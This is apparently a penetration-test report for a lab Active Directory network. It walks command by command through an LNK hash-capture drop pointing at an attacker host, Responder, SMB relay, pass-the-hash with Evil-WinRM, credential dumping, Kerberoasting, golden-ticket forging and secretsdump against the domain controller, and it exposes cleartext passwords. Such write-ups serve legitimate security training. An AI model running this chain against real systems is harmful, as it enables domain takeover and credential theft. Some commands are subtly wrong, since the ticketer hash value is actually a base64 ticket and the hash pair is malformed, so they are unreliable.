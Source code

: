 # Comprehensive Penetration Testing Report for Doomsday Labs

## Executive Summary
This document presents a detailed account of the penetration testing executed against Doomsday Labs' network, covering IP addresses from 10.100.1.2 to 10.100.1.7. The primary goal was to identify vulnerabilities within the network and find potential security risks using various techniques including OSINT, SMB Relay attacks, Credential Dumping, and Active Directory Exploitation.

## Test Environment
- **Scope**: Examined IP addresses range from 10.100.1.2 to 10.100.1.7.
- **Operating Systems**: Targets on Windows Server 2019; Attacks from Kali Linux.
- **Tools Used**: Nmap, Crackmapexec, Responder, Hashcat, Impacket, Bloodhound, Neo4j, pypykatz, Evil-WinRM.

## Key Exploits and Findings

### LNK File Drop
- **Objective**: To obtain FileMaker's NetNTLM hash via a crafted .LNK file.
- **Methodology**:
    - Created a .LNK file targeting the attacker’s Kali machine.
    - Deployed using the command:
        ```
        crackmapexec smb 10.100.1.4 -u info -p WhenTomorrowisNot@nOption2024 -M slinky -o server=10.100.1.76 name=JK_Flag
        ```
    - Captured the NetNTLM hash using Responder:
        ```
        sudo responder -I tun0 -A
        ```
    - The hash was secured and logged from `/usr/share/responder/logs`.

### SMB Relay and Credential Harvesting
- **Target File**: `targets.txt` — includes scoped IP addresses for testing.
- **Approach**: 
    - Conducted SMB Relay attacks to capture and relay NTLM hashes using:
        ```
        crackmapexec smb 10.100.1.2-7 --gen-relay-list targets.txt
        impacket-ntlmrelayx -smb2support -tf targets.txt
        ```
    - Successfully gathered initial credentials for deeper access into the network.

### Credential Dumping
- **Tools Utilized**: Evil-WinRM, pypykatz.
- **Execution**:
    ```
    evil-winrm -i 10.100.1.4 -u filemaker -H 322e0b51ca281c55:F1F9E4FF7872D084AC0E2CB11DE7D2C0
    ```
- **Outcome**:
    - Accessed various hosts using compromised credentials.
    - Conducted manual credential dumping with pypykatz.
    - **Decrypted Password**: `Football24`

### Active Directory and Kerberos Attacks
- **Active Scanning**:
    ```
    impacket-GetADUsers doomsdaylabs.net/filemaker:Football24 -dc-ip 10.100.1.2 -all
    ```
- **Kerberoasting**:
    ```
    impacket-GetUserSPNs doomsdaylabs.net/filemaker -dc-ip 10.100.1.2 -request
    ```
    - Kerberos tickets were targeted for cracking via Hashcat.
- **Pass the Ticket & Creating Golden Tickets**:
    ```
    impacket-ticketer -nthash doIF0jCCBc6gAwIBBaEDAgEWooIEyz...[snipped]...NXU/rX266m632YeSk3csEUpoKMTPZ -domain-sid S-1-5-21-2774200336-3400690103-1452933870-1111 -domain doomsdaylabs.net da.admin
    KRB5CCNAME=./Administrator.ccache impacket-secretsdump -k -no-pass -dc-ip 10.100.1.2 -target-ip 10.100.1.2 dc.doomsdaylabs.net
    ```
    - **Plain Password**: `Sunshine24`

### Bloodhound Analysis for Lateral Movement
- **Objective**: To trace and exploit potential lateral movement pathways using Bloodhound.
- **Procedure**:
    - Continuously employed Bloodhound to map administrative privilege escalations throughout the network.

## Lateral Movement Pathways
- **Initial Setup**:
    - An LNK file was strategically placed on an SMB Share to intercept FileMaker's NetNTLM hash, facilitating early network entry.
- **Progressive Actions**:
    - Used the obtained credentials for lateral movements, Kerberoasting, and ultimately for accessing the domain controller.

## Mitigations
- **SMB Relay Attack Prevention**: Implement SMB signing and enforce stringent authentication measures to curb relay attacks.
- **Credential Security Enhancement**: Improve monitoring of credential usage and enforce multi-factor authentication where feasible.
- **Active Directory Maintenance**: Regularly update and audit Active Directory configurations. Utilize tools like Bloodhound to preemptively identify and mitigate unusual access patterns or potential escalations.

## Conclusion
The penetration test exposed multiple critical vulnerabilities that could potentially be exploited to gain unauthorized access and control over network resources.

## Appendix
- **Tools and Commands**:
    - `crackmapexec smb 10.100.1.2-7 --gen-relay-list targets.txt`
    - `impacket-ntlmrelayx -smb2support -tf targets.txt`
    - `evil-winrm -i 10.100.1.4 -u filemaker -H [NetNTLM hash]`
    - `pypykatz lsa minidump lsass.dmp`

## References
- [Hashcat Rule-based Attack Guide](https://hashcat.net/wiki/doku.php?id=rule_based_attack)
- [CrackMapExec Tool on Kali](https://www.kali.org/tools/crackmapexec/)
- [Using Hashcat for Rule-based Attacks](https://www.armourinfosec.com/performing-rule-based-attack-using-hashcat/)
